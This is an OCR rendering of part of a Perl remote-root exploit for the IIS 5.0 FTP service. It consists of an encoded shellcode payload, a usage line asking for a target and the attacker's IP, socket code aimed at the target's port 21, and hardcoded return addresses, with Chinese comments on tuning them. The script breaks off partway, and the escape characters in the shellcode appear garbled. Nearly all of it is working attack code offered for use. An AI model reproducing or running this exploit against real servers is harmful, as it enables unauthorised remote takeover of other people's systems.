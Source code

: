 $shell="T00WT00W" ."xdaxdexbdx2dxe7x9bx9fx2bxc9xb1x56xd9x74x24xf4" .
"x5ax83xeaxfcx31x6ax15x03x6ax15xcfx12x67x77x86" .
"xddx98x88xf8x54x7dxb9x2ax02xf5xe8xfax40x5bx01" .
"x71x04x48x92xf7x81x7fx13xbdxf7x4exa4x70x38x1c" .
"x66x13xc4x5fxbbxf3xf5xafxcexf2x32xcdx21xa6xeb" .
"x99x90x56x9fxdcx28x57x4fx6bx10x2fxeaxacxe5x85" .
"xf5xfcx56x92xbexe4xddxfcx1ex14x31x1fx62x5fx3e" .
"xebx10x5ex96x22xd8x50xd6xe8xe7x5cxdbxf1x20x5a" .
"x04x84x5ax98xb9x9ex98xe2x65x2bx3dx44xedx8bxe5" .
"x74x22x4dx6dx7ax8fx1ax29x9fx0excfx41x9bx9bxee" .
"x85x2dxdfxd4x01x75xbbx75x13xd3x6ax8ax43xbbxd3" .
"x2ex0fx2ex07x48x52x27xe4x66x6dxb7x62xf1x1ex85" .
"x2dxa9x88xa5xa6x77x4exc9x9cxcfxc0x34x1fx2fxc8" .
"xf2x4bx7fx62xd2xf3x14x72xdbx21xbax22x73x9ax7a" .
"x93x33x4ax12xf9xbbxb5x02x02x16xc0x05xccx42x80" .
"xe1x2dx75x36xadxb8x93x52x5dxedx0cxcbx9fxcax84" .
"x6cxe0x38xb9x25x76x74xd7xf2x79x85xfdx50xd6x2d" .
"x96x22x34xeax87x34x11x5axc1x0cxf1x10xbfxdfx60" .
"x24xeax88x01xb7x71x49x4cxa4x2dx1ex19x1ax24xca" .
"xb7x05x9exe9x4axd3xd9xaax90x20xe7x33x55x1cxc3" .
"x23xa3x9dx4fx10x7bxc8x19xcex3dxa2xebxb8x97x19" .
"xa2x2cx6ex52x75x2bx6fxbfx03xd3xc1x16x52xebxed" .
"xfex52x94x10x9fx9dx4fx91xbfx7fx5axefx57x26x0f" .
"x52x3axd9xe5x90x43x5ax0cx68xb0x42x65x6dxfcxc4" .
"x95x1fx6dxa1x99x8cx8exe0x90";

print "IIS 5.0 FTPd / Remote r00t exploit by kcope V1.2
";
if ($#ARGV ne 1) {
print "usage: iiz5.pl <target> <your local ip>
";
exit(0);
}
srand(time());
$port = int(rand(31337-1022)) + 1025;
$locip = $ARGV[1];
$locip =~ s/./,/gi;
if (fork()) {
$sock = IO::Socket::INET->new(PeerAddr => $ARGV[0],
                              PeerPort => '21',
                              Proto    => 'tcp');

# 自行修改以下两个地址以增强通用性, 此俩地址在我机器上测试成功
$patch = "x7exd1xf9x7f";
$retaddr = "x9BxB1xF4x77";

# 你可以使用wordexp的这两个跳转地址
#$patch = "x90x80xb7x6f";
#$retaddr = "xcdx60xb6x6f";
